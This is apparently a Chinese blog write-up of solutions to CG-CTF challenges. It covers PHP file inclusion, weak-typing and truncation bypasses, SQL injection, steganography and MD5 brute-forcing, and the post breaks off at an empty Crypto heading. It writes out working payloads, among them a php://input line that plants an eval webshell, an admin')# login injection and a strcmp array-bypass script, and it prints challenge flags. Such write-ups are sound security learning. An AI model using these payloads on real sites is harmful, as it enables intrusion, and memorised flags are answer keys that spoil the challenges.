<!--yml
category: 未分类
date: 2022-04-26 14:45:29
-->

# 南京邮电大学CG-CTF平台Writeup_Gard3nia的博客-CSDN博客_cgctf平台

> 来源：[https://blog.csdn.net/Gar_denia/article/details/86760587](https://blog.csdn.net/Gar_denia/article/details/86760587)

# 前言

萌新刷题，寒假又补充更新了Crypto部分；

# 正文

## Web题解

### 文件包含

**1.直接包含内有运行代码的文件**

```
<?php
  include $_GET['file'];
?> 
```

那么就可以通过抓包修改file值的办法去运行一些本来不该运行的文件也可以通过此方法直接输出一些敏感的配置文件和远程包含shell（需要目标主机开启allow_url_fopen)
**2.通过PHP内置协议直接读取代码**
通过构造以下语句

```
http://xxx.com/index.php?file=php://filter/read=convert.base64-encode/resource=xxx.php 
```

就能获得xxx.php的代码的base64加密结果，通过base64解密后便可获得xxx.php的代码
**3.写入php文件**
使用如下URL

```
http://xxx.com/index.php?file=php://input 
```

并在http头里提交

```
<?fputs(fopen("shell.php","w"),"<?php eval($_post['xxx'];?>")?> 
```

就能在index.php目录下生成shell.php

此题考查顾名思义为文件包含漏洞，点开click me? no;


通过URL里**?file=show.php**大致可以确定为是GET方式提交
构造以下语句：

得到一大串的base64编码，进行base64解码得到php代码里就有flag

```
<html>
    <title>asdf</title>

<?php
	error_reporting(0);
	if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "Oh no!";
		exit();
	}
	include($file); 
//flag:nctf{edulcni_elif_lacol_si_siht}

?>
</html> 
```

### bypass again

这一题是一个PHP弱类型绕过的题目

具体的PHP弱类型分析参考的是这一篇文章：[http://www.cnblogs.com/Mrsm1th/p/6745532.html](http://www.cnblogs.com/Mrsm1th/p/6745532.html)
php中有两种比较的符号 == 与 ===
=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较
== 在进行比较的时候，会先将字符串类型转化成相同，再比较
题目如下

```
if (isset($_GET['a']) and isset($_GET['b']))
{
    if ($_GET['a'] != $_GET['b'])
    if (md5($_GET['a']) == md5($_GET['b']))
    die('Flag: '.$flag);
    else
    print 'Wrong.';
} 
```

所以当判断中为"=="的时候会将两边先转换为一样的数据类型;0e在比较的时候会将其视作为科学计数法，所以无论0e后面是什么，0的多少次方还是0，md5(‘240610708’) == md5(‘QNKCDZO’)成功绕过!
因为是GET方式提交的数据，所以可以直接修改url的值来提交a和b的值，提交两个结果MD5加密以后前两位都是0e的值，这样php就会认为这两个值经过MD5加密以后的值都为0，所以就可以直接爆出flag


### /x00

题目如下：

```
if (isset ($_GET['nctf'])) 
{
        if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
            echo '必须输入数字才行';
        else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
            die('Flag: '.$flag);
        else
            echo '骚年，继续努力吧啊~';
} 
```

这题考察的是ereg()的00截断，满足nctf必须是1-9的实数；
strpos函数判断的是后面的字符中在前面的字符中出现的位置，返回其位置，从0开始；
所以试一下1%00#biubiubiu,先截断输入的数字，使ereg()函数不能识别到%00后面字符，所以就顺利绕过ereg()函数的判断，
其次要使得strpos函数识别到nctf中包含了#biubiubiu这一串字符，
但是在url中不能识别#，所以就使用url编码%23来替换#，所以构造如下的url

```
http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php?nctf=1%00%23biubiubiu 
```

就可以直接弹出flag


### SQL1

SQL注入题，源码如下

```
<html>
<head>
Secure Web Login
</head>
<body>
<?php
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')"; admin
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
?>
<form method=post action=index.php>
<input type=text name=user value="Username">
<input type=password name=pass value="Password">
<input type=submit>
</form>
</body>
<a href="index.phps">Source</a>
</html> 
```

和老师上课讲的例子很吻合，就是一个很基础的用引号强行将原来的引号闭合，然后添加上括号，用#对后面的内容进行注释就可以了
题目要求用admin登录才可以获取flag，所以注入的内容如下：

```
admin')# 
```

闭合掉单引号然后闭合括号，注释掉后面对pass的判断，直接弹出flag


### MYSQL

这题是在页面给了提示robots.txt

查看此文件的内容得到如下的内容

```
 <?php
if($_GET[id]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?> 
```

tip为sql.php,然后还要用GET传一个id上去，这个id经过intval()函数以后赋值$id,要求传的id不等于1024
但是要得到id=1024的值，所以试一下1024.1成功得到flag
但是自己依旧是一脸懵逼…不知道咋的就蹦出来flag；

事后查了一下intval函数

```
<?php
echo(intval(1024.1));
echo '</br>';
echo(intval(1024.4));
echo '</br>';
echo(intval(1024.5));
echo '</br>';
echo(intval(1024.9));
echo '</br>';
?> 
```

这是测试的结果

测试了一下这个函数的用处:intval最常用的是在程序中功滤入进数据库的变量，将其转换为整型
所以只要传一个整型值为1024而且自生不是1024的数值进去就可以了…soga…

### passcheck

题目给出了源码,代码审计题

```
$pass=@$_POST['pass'];
$pass1=***********;//被隐藏起来的密码
if(isset($pass))
{
if(@!strcmp($pass,$pass1)){
echo "flag:nctf{*}";
}else{
echo "the pass is wrong!";
}
}else{
echo "please input pass!";
}
?> 
```

也就是strcmp( p a s s , pass, pass,pass1)值为0的时候输出flag，所以应该又是绕过之类的题目，小白不知道这个函数的作用个，所以上网科普了一下，PHP中strcmp函数的作用如下

```
<?php
echo strcmp("Hello world!","Hello world!"); // 两字符串相等
echo '</br>';
echo strcmp("Hello world!","Hello"); // string1 大于 string2
echo '</br>';
echo strcmp("Hello world!","Hello world! Hello!"); // string1 小于 string2
echo '</br>';
?>

结果：
0
7
-7 
```

以上代码用于测试此函数的作用结果显而易见，len(string1)==len(string2)返回0，否则返回string1比string2长多少或者短多少。
此题要求**strcmp( p a s s , pass, pass,pass1)**的值为0，你不可能知道pass1的长度，所以要想办法绕过这个条件满足条件，上网搜索了一下，发现只要post一个数组过去就可以了，写一个py脚本传参到指定的url

```
import requests
url="http://chinalover.sinaapp.com/web21/"
s=requests.Session()
post={"pass[]":1}
print(s.post(url,data=post).text) 
```

得到flag如下：


### 变量覆盖

今天又学到了一点新知识，关于php里的变量覆盖问题
题目如下：

在底部给出了sourcecode，查看一波源码

发现存在extract()函数，应该就是这个函数的问题，extract函数的用处如下


```
extract() 函数从数组中将变量导入到当前的符号表。
该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。
该函数返回成功设置的变量数目。 
```

会将对应的键值当做变量，并且将键对应的值赋值给这个变量，所以就存在原先已经赋过值的变量被重新赋值的现象。
这题的要求就是:

```
$pass==$thepassword_123 
```

题目要求是post，就直接传两个相等的值即可

结果如下：


### 起名字真难

源码如下

```
<?php
function noother_says_correct($number)
{
       $one = ord('1');
       $nine = ord('9');
       for ($i = 0; $i < strlen($number); $i++)
       {   
               $digit = ord($number{$i});
               if ( ($digit >= $one) && ($digit <= $nine) )
               {
                       return false;
               }
       }
          return $number == '54975581388';
}
$flag='*******';
if(noother_says_correct($_GET['key']))
   echo $flag;
else 
   echo 'access denied';
?> 
```

大概就是扫描number这个字符串，发现数字就输出"access denied",如果没有数字就输出

```
return $number == '54975581388'; 
```

根据以前的做题经验，大概又是php弱类型的绕过，绞尽脑汁都没有想出来应该怎么绕过这个数字，再贴一篇干货帖子：[https://www.freebuf.com/articles/web/166543.html](https://www.freebuf.com/articles/web/166543.html)
了解到可能是传一个十六进制数上去，解析以后和原来的数相等就可以了，但我心想怎么可能这么巧就是这个十六进制数不包含0-9的数呢，不管了，先试一试，十六进制转换以后果然不包含0-9的数字…wtf?(心中万头cn马奔腾)…
进制转换是ccccccccc，加上十六进制符号0xccccccccc即可


### 密码重置

查看网页源代码：

显示数据的提交方式都是POST方式,提交的数据有user/newpass/vcode这三项，都是要POST传参的，传递的数据如下所示：

**传参构造的url需要注意，将ctfuser的base64编码值换成admin的编码值**结果如下：


## **MISC题解**

### 丘比龙De女神

这题拿到手是一个文件gif,改成gif后缀发现是一张gif图片，放到kali里跑一下发现确实有点猫腻，如下图：

发现了一个zip文件，于是返回将文件格式改为zip，得到一个压缩包，解压无果，果然没这么简单，丢进十六进制编辑器得到一个gif格式的文件头，搜索003B(gif文件尾)如下

发现后面还是有文件，另存，但是感觉这个love有点奇怪，算了，先记录一下，管他有没有用。。。

文件的14 00 01 00 08 00特别熟悉，就是zip文件的文件头的一部分，说做就做，把前面改成压缩包的文件头

解压发现需要密码，填入先前记录的love解压成功，得到一张女神图片(有点…瓜)

需要的是图片的MD5值，去kali用md5sum跑一下得到flag值


### Remove Boyfriend

流量包分析题，丢进wireshark，协议分级统计发现全部为TCP数据包

追踪TCP流，在2号流里发现有用信息

在3号流里发现flag.py源码研究发现是一个凯撒加密移位算法运行发现flag is not here，证明字符串s错误，需要找到正确的s


```
def Upper(ch):  
    if ch>='A' and ch<='Z':  
        return True  

def Lower(ch):  
    if ch>='a' and ch<='z':  
        return True  

def X1con(s):  
    flag = ''  
    for i in s:  
        if Upper(i) == True:  
            if i>='A' and i<='M':  
                flag += chr(ord(i)+13)  
            else:  
                flag += chr(ord(i)-13)  
        elif Lower(i) == True:  
            if i>='a' and i<='m':  
                flag += chr(ord(i)+13)  
            else:  
                flag += chr(ord(i)-13)  
        else:  
            flag += i  
    return flag  

if __name__ == "__main__":  
    s = '{synt_vf_abg_urer}'  
    print X1con(s) 
```

在6号流里发现有用信息，发现文件头为png，是图片没得跑


转为原始数据保存为png文件果然得到一张小姐姐的照片,在左下角发现字符串信息，提交试一下不行

将之前的py文件里的变量s改为这个字符串运行得到flag


### MD5

这题给出一段MD5加密的部分明文和密文

```
密文：e9032???da???08????911513?0???a2 
明文：TASC?O3RJMV?WDJKX?ZM
要求你还原出密文并且加上nctf{}提交 
```

网络安全课程上老师讲了口令破解的时候讲了暴力破解，新学了个比较有用的脚本可以专门用来爆破MD5口令

```
import hashlib
str1='TASC'
str2='O3RJMV'
str3='WDJKX'
str4='ZM'
for a in range(32,126):
    for b in range(32,126):
        for c in range(32,126):
            m=str1+chr(a)+str2+chr(b)+str3+chr(c)+str4
            x=hashlib.md5(m).hexdigest()
            if(x[0:5]=='e9032'):
                print x 
```

在ASCII码32~126之间对这三个缺失的明文字符进行穷举，由于MD5加密的不可逆性质，所以采用对比密文的方式检验，如果前五位和原来一
样就相当于找到了正确的明文，暴力破解得到密文串，加上nctf提交即可

### 图种

这题是一个简单的隐写题，给了一个gif格式的图片，话不多说直接丢进十六进制编辑器，搜索关键字504B0304得到一个PK文件头

将文件改为zip格式后解压即可再次得到一个gif图片，flag是图片最后一句话的首字母加上nctf提交即可


## Crypto题解

### easy

